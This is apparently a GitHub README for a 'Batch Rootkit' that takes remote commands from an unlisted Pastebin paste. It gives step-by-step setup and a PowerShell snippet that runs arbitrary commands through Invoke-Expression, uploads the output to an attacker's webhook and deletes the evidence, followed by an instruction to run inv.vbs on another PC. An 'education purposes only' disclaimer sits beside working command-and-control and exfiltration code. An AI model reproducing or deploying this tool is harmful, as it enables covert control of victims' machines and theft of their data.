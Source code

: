 # Batch Rootkit

> __Warning__ 
> **I hereby declare that I am not liable for any damages caused by the program. If you experience any problems with my code, feel free to reach out to me on Discord.**


> __Warning__ 
> **ITS EDUCATION PURPOSES ONLY**


## Contact
In case you require any assistance with my project, please do not hesitate to contact me on Discord.
**Code613 on discord**

## About project
Batch rootkit is using pastebin paste to control computer. You can use all powershell and cmd commends.

##How to use
1. Create account on Create paste on https://pastebin.com/
2. Create paste on https://pastebin.com/
3. Make paste to unlisted
4. Change your webhook url and commend that you want to use
```PowerShell
$webhookUrl = "Your webhook url"
$outputFile = "output.txt"
$command = "Commend you want to use"
Invoke-Expression "$command | Out-File -FilePath $outputFile"
#tasklist | Out-File -FilePath $outputFile
$client = New-Object System.Net.WebClient
$client.UploadFile($webhookUrl, $outputFile)
Remove-Item $outputFile
 ```
5. To use cmd commend use ```cmd /c```  to use powershell commend just use your commend without ```cmd /c```
6. Save your paste
7. Press raw button
8. Copy link
9. Paste this link into batch code
10. Run inv.vbs on other pc
11. Done

